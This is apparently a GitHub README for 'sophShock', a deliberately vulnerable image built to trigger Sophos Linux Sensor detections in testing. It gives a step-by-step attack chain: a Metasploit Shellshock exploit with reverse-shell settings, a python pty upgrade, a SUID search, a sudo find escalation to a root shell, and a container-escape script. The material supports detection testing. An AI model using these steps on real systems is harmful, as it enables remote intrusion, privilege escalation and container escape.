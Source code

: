 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
Perhaps one of the users has something interesting?

# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
